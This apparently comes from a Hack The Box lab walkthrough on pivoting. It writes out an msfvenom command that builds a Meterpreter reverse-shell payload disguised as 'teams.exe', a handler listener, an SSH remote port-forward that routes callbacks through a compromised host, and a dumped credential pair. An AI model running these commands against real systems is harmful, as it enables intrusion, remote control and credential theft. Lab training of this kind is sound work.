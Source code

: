 
        Let's walk through the reverse port forwarding method quickly. First off, we need to generate a payload using msfvenom. Note that here we'll specify the IP address of the dmz01 pivot host in the lhost field and NOT our attack host IP as the target would not be able to connect back to us directly.

        Gkaranikas@htb[/htb]$ msfvenom -p windows/x64/meterpreter/reverse_https lhost=172.16.8.120 -f exe -o teams.exe LPORT=443

        Next, we need to set up a multi/handler and start a listener on a different port than the payload we generated will use.

        [msf](Jobs:0 Agents:0) exploit(windows/smb/smb_delivery) >> use multi/handler

        [msf](Jobs:0 Agents:0) exploit(multi/handler) >> set payload windows/x64/meterpreter/reverse_https

        [msf](Jobs:0 Agents:0) exploit(multi/handler) >> set lhost tun0

        [msf](Jobs:0 Agents:0) exploit(multi/handler) >> set lport 7000

        [msf](Jobs:0 Agents:0) exploit(multi/handler) >> run

        [*] Started HTTPS reverse handler on https://0.0.0.0:7000


        Next, we need to upload the teams.exe reverse shell payload to the DEV01 target host. We can SCP it up to dmz01, start a Python web server on that host and then download the file. Alternatively, we can use the DNN file manager to upload the file as we did previously. With the payload on the target, we need to set up SSH remote port forwarding to forward the Metasploit listener port 8000 to port 8180 on the dmz01 pivot box. The R flag tells the pivot host to listen on port 8180 and forward all incoming traffic to this port to our Metasploit listener at 0.0.0.0:8000 configured on our attack host.


        $ ssh -i dmz01_key -R 172.16.8.120:443:0.0.0.0:7000 root@10.129.203.111 -vN


        Next, execute the teams.exe payload from the DEV01 host, and if all goes to plan, we'll get a connection back.

        A caveat to the above method is that, by default, OpenSSH only allows connection to remote forwarded ports from the server itself (localhost). To allow this, we must edit the /etc/ssh/sshd_config file on Ubuntu systems and change the line GatewayPorts no to GatewayPorts yes, otherwise we will not be able to get a call back on the port we forwarded in the SSH command (port 443 in our case). To do this, we would need root SSH access to the host we are using to pivot from. At times we will see this configuration set up like this, so it works straight away, but if we don't have root access to the host with the ability to temporarily modify the SSH config file (and reload it to take effect using service sshd reload), then we won't be able to perform port forwarding in this way. Keep in mind that this type of change opens up a security hole in the client's system, so you'd want to clear it with them, note down the change, and make every effort to revert it at the end of testing. This post is worth reading to understand SSH Remote Forwarding better.





                        //Lateral Movement


        
        After pillaging the host DEV01, we found the following set of credentials by dumping LSA secrets:

        hporter:Gr8hambino!
